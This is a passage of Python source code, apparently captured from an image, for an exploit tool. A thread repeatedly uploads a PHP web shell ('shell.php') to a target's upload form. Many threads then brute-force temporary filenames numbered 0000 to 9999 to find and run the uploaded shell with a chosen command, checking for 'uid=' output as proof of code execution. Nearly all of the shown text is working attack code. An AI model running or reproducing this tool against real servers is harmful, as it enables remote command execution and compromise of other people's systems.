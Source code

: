 ```py
            daemon=True,
            name="UploadThread",
        )
        self.upload_thread.start()
        logger.info("Upload loop started")

    def _upload_loop(self, session: requests.Session, upload_url: str, php_code: str,
                     interval: float, stop_evt: threading.Event, field_name: str = "file") -> None:
        files = {field_name: ("shell.php", php_code.encode("utf-8"), "application/x-php")}
        i = 0
        while not stop_evt.is_set():
            try:
                r = session.post(upload_url, files=files, allow_redirects=True)
                if i % 25 == 0:
                    logger.debug(f"[upload] status={r.status_code}")
            except Exception as e:
                if i % 25 == 0:
                    logger.debug(f"[upload] error: {e}")
            i += 1
            if interval > 0:
                time.sleep(interval)

    def _probe_one(self, base: str, tmp_path: str, num: str, cmd: str) -> Optional[Tuple[str, int, Dict[str,str], str]]:
        url = f"{base.rstrip('/')}{tmp_path}/{num}.php?0={quote(cmd, safe='')}"
        try:
            r = self.session.get(url, allow_redirects=True)
            if r.status_code == 200 or "uid=" in r.text or "uid =" in r.text:
                headers = {k: v for k, v in r.headers.items() if k.lower() in ("content-type", "content-length", "server", "date")}
                return url, r.status_code, headers, r.text
        except Exception:
            pass
        return None

    def _generate_numbers(self) -> List[str]:
        return [f"{i:04d}" for i in range(10000)]

    def bruteforce(self, cmd: Optional[str] = None) -> Tuple[Optional[str], Optional[str]]:
        cmd = cmd or self.config.cmd
        numbers = self._generate_numbers()
        logger.info(f"Starting bruteforce on {self.base}{self.tmp_path}/[0000-9999].php")
        logger.info(f"Threads={self.config.threads}, timeout={self.config.timeout}s, upload_interval={self.config.upload_interval}s")
        while not self.stop_evt.is_set():
            random.shuffle(numbers)
            with ThreadPoolExecutor(max_workers=self.config.threads) as ex:
                futures = {ex.submit(self._probe_one, self.base, self.tmp_path, n, cmd): n for n in numbers}
                try:
                    for fut in as_completed(futures):
                        if self.stop_evt.is_set():
                            break
                        try:
                            res = fut.result()
                        except Exception:
                            continue
                        if res:
                            url, status, headers, text = res
                            print("\n" + "="*60)
                            print(f"[FOUND] {url}  (HTTP {status})")
                            if headers:
                                print("-- Response headers --")
```